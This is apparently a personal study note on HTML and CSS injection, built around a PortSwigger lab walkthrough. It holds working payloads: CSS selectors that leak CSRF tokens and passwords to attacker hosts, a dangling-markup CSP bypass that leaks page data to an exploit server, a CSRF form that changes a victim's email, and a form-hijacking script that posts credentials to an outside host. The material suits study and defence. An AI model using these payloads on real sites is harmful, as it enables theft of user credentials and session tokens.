

HTML and CSS injections are a variation of [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) that verifies when you can inject HTML code into the page, but something is preventing you from injecting JavaScript tags or snippets of code.

In these cases, classic XSS exploitation is not feasible, but there are other techniques applicable to these scenarios that still make page exploitation possible.

## CSS injection and exfiltration

You can use the `@import` rule that works also for **blind CSS exfiltration**:
```html
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

The main technique to exfiltrate information via CSS Injection is to try to match a text with CSS and in case that text exist load some external resource:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

>[!warning]
>This technique won't work if the filed is **hidden**, because the background won't be loaded.
>Fix:
>```css
>input[name=csrf][value^=csrF] ~ * {
>    background-image: url(https://attacker.com/exfil/csrF);
>}
>```

A CSS "keylogger" [^video] can be constructed in the same way [^css-k] :

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

With CSS injection however, it is also possible to perform [UI redressing](Clickjacking.md#UI%20redressing%20and%20XSS) in order to re-define any CSS style included in the original page in order to hijack the original behavior.

More attacks can be found at
- [CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection), HackTricks 
- [Blind CSS Exfiltration: exfiltrate unknown web pages](https://portswigger.net/research/blind-css-exfiltration), PortSwigger

## Dangling markup injection

>[!question] What is dangling markup injection?
>Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. Any attribute that makes an external request can be used for dangling markup.

Often used to capture sensitive information visible to users, like:
- CSRF token
- API keys
- Secrets
- Email messages

>[!example]
>Application code injecting user-supplied data inside the `value` field: `<input type="text" name="input" value="CONTROLLABLE DATA HERE`
>In case there is WAF or something preventing XSS, attacker can exfiltrate data using a payload like `">
>This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
>

### Password reset poisoning via dangling markup


### XSS + Dangling Markup + CSP bypass + CSRF

[Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md) used by the app (very strict):
```http
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Discovered a reflection point using pre-filled data:
```html
https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3EThis%20is%20injected%20%3C!--

<label>Email</label>
<input required type="email" name="email" value="">This is injected <!--">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'> Update email </button>
</form>
</div>
</div>
</section>
<div class="footer-wrapper">
</div>
</div>
</body>
</html>-->
```



XSS can't be obtained but we can leak pages data, including a CSRF token, if we trick the user clicking the link:
```html
<script>
if(window.name) {
	// when imported inside the page using the XSS, it leaks the data contained inside the <base target=""> tag
	new Image().src='//exploit-0a38001803df086284e31d1601610050.exploit-server.net?'+encodeURIComponent(window.name);
	} else {
	// injects the XSS in the email filed
	location = 'https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a38001803df086284e31d1601610050.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

<!-- resultin base tag after the XSS -->
<base target='">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'>
```
Logs:
```
...
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...
```

Finally, we can conduct out [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and change victim's email:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Form Hijacking (Capture passwords exploiting auto-fill)

The idea is you have a HTML injection vulnerability that is protected by [Content Security Policy (CSP)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Content%20Security%20Policy%20(CSP).md). Then you use the HTML injection to inject your own form action by using the `formaction` attribute or injecting your own form to send data to the attackers server. [^form-hijacking]

[^form-hijacking]: [Gareth Heyes - Using Form Hijacking to Bypass CSP](../../Readwise/Articles/Gareth%20Heyes%20-%20Using%20Form%20Hijacking%20to%20Bypass%20CSP.md)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://uusx5ulcqjyd4ypy5x9hhjhoffl89zxo.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Related article: [Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)
